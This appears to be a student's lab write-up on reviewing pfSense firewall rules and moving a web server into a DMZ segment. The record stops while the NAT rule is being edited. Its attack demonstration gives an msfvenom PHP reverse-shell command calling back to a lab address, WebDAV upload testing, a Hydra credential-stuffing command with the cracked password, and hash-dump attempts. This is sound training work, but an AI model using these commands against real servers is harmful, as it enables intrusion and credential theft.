 # Configuring Network Segmentation and Security
<h3>Objectives</h3>

- Apply security solutions for infrastructure management
- Implement configuration changes to existing controls to improve security
#
<h3>Lab Set Up</h3>

![image](https://github.com/user-attachments/assets/daf27a39-fb8f-4890-a6ba-640a1bfe1619)

To  connect to the pfSense firewall, I just type in its IP into the browser: http://10.1.0.254
- 10.1.0.254 is this networks defualt gateway. Usually the defuat gateway is a router, in this case pfSense works as both a router and a firwall, and thats why its this networks defualt gateway.
![image](https://github.com/user-attachments/assets/ae1d90aa-045d-49e2-b85b-98e6ca659194)
![image](https://github.com/user-attachments/assets/fe92ec5f-12df-4dd2-bf51-ef06452c75ec)
- This firewall/router is configured with one external and one internal interface. The firewall screens the local network segment from external networks, allowing only traffic matching its access control list (ACL) through.

<h3>Reviewing Firewall ACLs</h3>

I can access the ACL or rules by clicking **Firewall > Rules**
- Here I can see that theres multiple tabs, so there can be seperate rules for the the WAN and LAN

![image](https://github.com/user-attachments/assets/cdcaae03-722e-41f8-bdbc-5f0c239e4243)
![image](https://github.com/user-attachments/assets/95711b78-a316-407f-827f-e24c73f9ca42)
- Several types of traffic are permitted into the LAN: ICMP (ping), DNS, HTTP/HTTPS, and SMTP.
- All except the ICMP rule, are forwarding rules meaning that traffic for those ports is directed to a host on the LAN.

Now on the **LAN tab**
![image](https://github.com/user-attachments/assets/4bc00873-6876-4173-a484-fb810bc2e080)
- Based on these rules, there is no egress filtering. Any type of traffic from a host on the LAN is permitted to any endpoint, **unless** a deny rule is placed higher in the ACL.
  - The order of the rules can be changed around, since  the firewall prioritizes the rules from top to bottom, it will change how the firewall behaves with certain traffic.
- The **Anti-Lockout Rule** prevents the firewall from locking out an administrator from the web interface.
It's enabled by default and allows traffic from any source within the network to any firewall administration protocol listening on the LAN IP address.

If I now click on **Firewall > NAT**, this shows hosts are designated to receive traffic for DNS, HTTP/HTTPS, and SMTP.

![image](https://github.com/user-attachments/assets/be50cdea-d36b-40f9-9f6f-24db262ef564)
![image](https://github.com/user-attachments/assets/d9d7c69c-035e-4fb4-858b-951b4605f90b)
- These rules however create a vulnerability, 

#
<h3>Testing Host Security</h3>

In order to demonstrate how a server may make other hosts on the same segment vulnerable, I will run an attack against the web server.

On a Kali VM, which I'll be using as the attack box (AB), I'll start msfconsole and run the following commands: 

1: msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.2.192 lport=8080 -f raw > /root/get.php
- Creates a reverse shell via PHP code
![image](https://github.com/user-attachments/assets/844f1c13-d830-4f2e-aa5c-0df1d04a3e03)

2: davtest -url http://www.515support.com/webdav
- I'll leverage the server’s webdav environment to upload malicious code
![image](https://github.com/user-attachments/assets/4e550bbe-86db-4537-b21d-61571f1a6d22)

This environment is password-protected so it failed to connect, however I'll use the password cracekr THC Hydra or Hydra and a wordlist containing possible usernames and password variations, and perform a credential stuffing attack. 

Command: hydra -L /root/Downloads/users-515support.txt -P /root/Downloads/pwd-515support.txt www.515support.com http-get /webdav

![image](https://github.com/user-attachments/assets/9c1676b0-ecc5-4e98-906d-65d3f4719636)
- Hydra was able to crack the user/password combo of dev:Pa$$w0rd

Now I can try connecting again using these credentials
![image](https://github.com/user-attachments/assets/bc809845-89f7-4d4f-aa30-1463449c51fe)

Now that I'm connected I can start the listener

![image](https://github.com/user-attachments/assets/650491ad-54a3-4c62-82df-f7b303848371)

On a second terminal I'll run the following command to trigger the script to and start the reverse shell
![image](https://github.com/user-attachments/assets/cb510199-1bdb-4420-a7b0-c091133b3d16)

Back on the terminal running msfconsole, the meterpreter shell was succesful, and I now  have access to the servers command line.
![image](https://github.com/user-attachments/assets/2f47d67f-5dea-4131-b89a-b1c4909f184f)

Leaving the session in the background to try creating a hash dump, results in failure because I dont have root access.
![image](https://github.com/user-attachments/assets/bf494440-2074-445a-a097-4a89287538b6)

Trying a different method also yeilds no access, however there is the potential for intrusion against other hosts on the network.
![image](https://github.com/user-attachments/assets/89437583-ba17-4b1d-a3e8-df2f3cf1f37f)
![image](https://github.com/user-attachments/assets/2f825b5b-1164-43e3-8993-94854a90d798)
![image](https://github.com/user-attachments/assets/101102bf-7b08-4b58-9b74-82efc916252b)
![image](https://github.com/user-attachments/assets/ca6b314e-88d6-4a1f-aa36-0f7a02e2d551)

The reason there its possible to gain access to another host on the network is because of the firewall rules. If firewall rules were filtering connections between this server and other hosts, 
and blocking unauthorized outbound connections, then this wuld not be possible.
#
<h3>Configuring Segmentation</h3>

Now I will configure the firewall so that the web server is isolated in a demilitarized zone (DMZ) segment, separate from other hosts.

In Hyper-V Manager, Virtual Switch Manager > Private > Create Virtual Switch and name the switch 'vDMZ'
![image](https://github.com/user-attachments/assets/a1add197-8bb8-4f8e-ad3c-23bcfca3e541)

Now in the settings menu for UTM1, I'll set the vDMZ switch for the hn2 adapter

![image](https://github.com/user-attachments/assets/42798972-644d-4d35-88bd-a82e55b927a2)
![image](https://github.com/user-attachments/assets/58165c35-a154-4592-b473-bd97cb7a873b)

And I'll do the same for LX1, on the eth0 adapter

![image](https://github.com/user-attachments/assets/9c084d65-9284-4079-93d0-a980177c841c)

Back on pfSense, Clicking on Interfaces > Assignments
![image](https://github.com/user-attachments/assets/edda3a98-8f04-4080-8122-a25dbbb2bcfd)
And I added OPT1, which is UTM1's inteface connected to the virtual switch (vDMZ)
![image](https://github.com/user-attachments/assets/b95b2700-816d-4e64-b19c-9de6bdeab33d)

Clicking on Interfaces > OPT1, I enabled the interface and set the IPv4 address as 10.1.254.254 /24 and to be static, then saved the configuration at the bottom of the menu
![image](https://github.com/user-attachments/assets/b0d2478e-d4d2-47f2-8fa0-b935ff3d8794)
![image](https://github.com/user-attachments/assets/83159cc6-a7b6-4dae-bc46-dd2506a4015c)

Clicking on Firewall > NAT, I'm going to edit the HTTP forwarding rule

![image](https://github.com/user-attachments/assets/f0c07ae9-a6b1-48f0-9eb4-e56e9e42e891)
![image](https://github.com/user-attachments/assets/18d0975c-f95c-4ed4-962a-60d3902b7041)


